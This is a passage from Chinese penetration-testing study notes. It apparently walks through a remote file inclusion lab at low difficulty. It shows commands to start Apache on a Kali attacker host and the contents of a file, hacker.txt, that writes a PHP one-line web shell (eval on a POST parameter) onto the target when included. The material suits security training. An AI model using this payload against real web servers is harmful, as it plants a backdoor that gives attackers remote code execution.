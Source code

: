 ![FileInclusionLow开启Kali的Apache服务](../../../MarkdownImgs/安全技术/渗透测试/安全学习笔记/FileInclusionLow开启Kali的Apache服务.png)

```shell
# 开启apache服务
service apache2 start 
systemctl start apache2

# 查看apache的状态
systemctl status apache2
```

2. 在远程服务器上放置一个恶意文本文件

![FileInclusionLowRFI创建包含木马文件](../../../MarkdownImgs/安全技术/渗透测试/安全学习笔记/FileInclusionLowRFI创建包含木马文件.png)

```shell
# 路径
cd /var/www/html/
vim hacker.txt

# 文件内容
<?fputs(fopen("FileInclusion.php","w"),'<?php eval($_POST[pass]);?>')?>
```

![FileInclusionLowRFI测试包含文件是否可用](../../../MarkdownImgs/安全技术/渗透测试/安全学习笔记/FileInclusionLowRFI测试包含文件是否可用.png)
